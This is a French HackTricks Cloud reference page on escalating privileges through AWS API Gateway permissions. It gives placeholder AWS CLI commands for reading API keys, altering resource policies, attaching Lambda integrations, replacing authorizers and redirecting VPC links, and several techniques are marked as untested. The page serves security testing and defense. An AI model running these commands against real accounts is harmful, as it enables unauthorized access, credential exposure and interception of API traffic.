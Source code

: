 # AWS - Élévation de privilèges Apigateway

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Avec cette autorisation, vous pouvez générer des clés API des API configurées (par région).
```bash
aws --region <region> apigateway create-api-key
```
**Impact potentiel :** Vous ne pouvez pas effectuer de privilège d'escalade avec cette technique, mais vous pourriez accéder à des informations sensibles.

### `apigateway:GET`

Avec cette autorisation, vous pouvez obtenir les clés API générées des API configurées (par région).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Impact potentiel :** Vous ne pouvez pas réaliser une élévation de privilèges avec cette technique, mais vous pourriez accéder à des informations sensibles.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Avec ces autorisations, il est possible de modifier la stratégie des ressources d'une API pour vous donner accès à son appel et abuser de l'accès potentiel que la passerelle API pourrait avoir (comme l'invocation d'une fonction lambda vulnérable).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Impact potentiel :** En général, vous ne pourrez pas effectuer une élévation de privilèges directement avec cette technique, mais vous pourriez accéder à des informations sensibles.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Besoin de test
{% endhint %}

Un attaquant ayant les autorisations `apigateway:PutIntegration`, `apigateway:CreateDeployment` et `iam:PassRole` peut **ajouter une nouvelle intégration à une API Gateway REST API existante avec une fonction Lambda ayant un rôle IAM attaché**. L'attaquant peut ensuite **déclencher la fonction Lambda pour exécuter du code arbitraire et potentiellement accéder aux ressources associées au rôle IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Accès aux ressources associées au rôle IAM de la fonction Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Besoin de test
{% endhint %}

Un attaquant avec les autorisations `apigateway:UpdateAuthorizer` et `apigateway:CreateDeployment` peut **modifier un authorizer API Gateway existant** pour contourner les vérifications de sécurité ou exécuter du code arbitraire lors de la réalisation de requêtes API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Contournement des vérifications de sécurité, accès non autorisé aux ressources de l'API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Besoin de test
{% endhint %}

Un attaquant avec la permission `apigateway:UpdateVpcLink` peut **modifier un lien VPC existant pour le faire pointer vers un autre Network Load Balancer, redirigeant potentiellement le trafic de l'API privée vers des ressources non autorisées ou malveillantes**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Impact potentiel** : Accès non autorisé aux ressources API privées, interception ou perturbation du trafic API.

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
